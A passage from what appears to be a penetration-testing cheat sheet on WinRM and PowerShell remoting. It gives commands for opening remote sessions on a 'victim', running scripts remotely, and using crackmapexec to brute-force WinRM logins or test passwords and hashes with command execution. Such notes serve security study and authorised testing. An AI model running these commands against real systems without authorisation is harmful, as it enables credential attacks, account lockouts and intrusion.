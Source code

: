 Now we can enter a remote PS session on the victim.

### Saving and Restoring sessions

This **won't work** if the the **language** is **constrained** in the remote computer.

```ruby
#You can save a session inside a variable
$sess1 = New-PSSession -ComputerName <computername>
#And restore it at any moment doing
Enter-PSSession -Session $sess1
```

Inside this sessions you can load PS scripts using _Invoke-Command_

```ruby
Invoke-Command -FilePath C:\Path\to\script.ps1 -Session $sess1
```

### Errors

If you find the following error:

`enter-pssession : Connecting to remote server 10.10.10.175 failed with the following error message : The WinRM client cannot process the request. If the authentication scheme is different from Kerberos, or if the client computer is not joined to a domain, then HTTPS transport must be used or the destination machine must be added to the TrustedHosts configuration setting. Use winrm.cmd to configure TrustedHosts. Note that computers in the TrustedHosts list might not be authenticated. You can get more information about that by running the following command: winrm help config. For more information, see the about_Remote_Troubleshooting Help topic.`

The try on the client (info from [here](https://serverfault.com/questions/657918/remote-ps-session-fails-on-non-domain-server)):

```ruby
winrm quickconfig
winrm set winrm/config/client '@{TrustedHosts="Computer1,Computer2"}'
```

## WinRM connection in linux

### Brute Force

Be careful, brute-forcing winrm could block users.

```ruby
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Just check a pair of credentials
## Username + Password + CMD command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
## Username + Hash + PS command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
#Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```
